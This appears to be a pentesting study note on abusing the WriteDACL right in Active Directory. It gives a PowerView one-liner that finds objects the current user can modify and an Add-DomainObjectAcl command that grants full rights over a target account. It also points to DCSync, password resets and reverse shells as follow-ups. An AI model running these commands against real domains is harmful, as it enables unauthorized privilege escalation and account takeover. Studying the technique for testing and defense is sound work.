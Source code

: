 ## Enumeration And Exploit
One object access right in particular (_WriteDACL_) grants permission to modify the DACL itself.

We can enumerate misconfigured user accounts with the following command:
```powershell
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

![](../../../Screenshots/enwd-ad.png)

Finding a domain object(for instance a user) with WriteDACL access rights, we can add new access rights like GenericAll.
We can use the Add-DomainObjectAcl PowerView method to apply additional access rights such as GenericAll, GenericWrite, or even [_DCSync_](https://adsecurity.org/?p=1729) if the targeted object is the domain object.

```Powershell
Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity offsec -Rights All
```
(we can use the same command to verify that the rights have been changed)

![](../../../Screenshots/cadw-ou.png)

We can now proceed to change the password of the user or create a process as them to get a reverse shell.

